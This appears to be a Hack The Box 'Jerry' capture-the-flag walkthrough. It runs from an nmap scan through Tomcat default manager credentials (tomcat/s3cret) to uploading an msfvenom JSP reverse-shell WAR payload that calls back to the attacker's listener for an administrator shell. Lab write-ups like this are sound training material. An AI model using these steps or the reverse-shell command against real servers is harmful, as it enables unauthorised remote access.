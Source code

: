 


# Walkthrough

1. Nmap scan result in the found of Tomcat service Website running in 8080 port.
```
	┌─[ghoth@parrot]─[~/HTB/machines/jerry]
		└──╼ $cat serviceScan.nmap 
		# Nmap 7.94SVN scan initiated Sat Jan 11 00:40:06 2025 as: nmap -sC -sV -p- -Pn --min-rate 5000 -oA serviceScan 10.10.10.95
		Nmap scan report for 10.10.10.95 (10.10.10.95)
		Host is up (0.22s latency).
		Not shown: 65534 filtered tcp ports (no-response)
		PORT     STATE SERVICE VERSION
		8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
		|_http-title: Apache Tomcat/7.0.88
		|_http-favicon: Apache Tomcat
		|_http-server-header: Apache-Coyote/1.1
		
		Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
		# Nmap done at Sat Jan 11 00:41:00 2025 -- 1 IP address (1 host up) scanned in 53.90 seconds

```

2. Home page of the website:
	1. ![](Assets/Pasted%20image%2020250225223458.png)
	
3. When visiting the manager app, It ask for credential. Cancelling the login revel the credential:
	1. Username -> tomcat
	2. Password -> s3cret 
	3. ![](Assets/Pasted%20image%2020250225223328.png)

4. Landing page after loggin in:
	   ![](Assets/Pasted%20image%2020250225223629.png)

5. The page seem to be allowing the user to upload .war file. 
	1. ![](Assets/Pasted%20image%2020250225223648.png)

6. Then i generate a msfvenom .war file paylaod for reverse shell. and named it payload.war.
	- ┌─[✗]─[ghoth@parrot]─[~/HTB/machines/jerry]
		└──╼ $msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=8888 -f war -o payload.war
		Payload size: 1096 bytes
		Final size of war file: 1096 bytes
		Saved as: payload.war

7. The uploaded file seem to be appear in the main page table, where we can click and run.
	1. ![](Assets/Pasted%20image%2020250225223716.png)

8. Before executing the payload, I had already started my netcat server listening in the port 8888. And we got the connection after executing the payload. 
		![](Assets/Pasted%20image%2020250225223524.png)

9. The shell we got seem to have administrator authority (High authority).
		![](Assets/Pasted%20image%2020250225223545.png)

10. Then we found the flag in the flag directory in desktop of Administrator user.  
		![](Assets/Pasted%20image%2020250225223608.png)
	


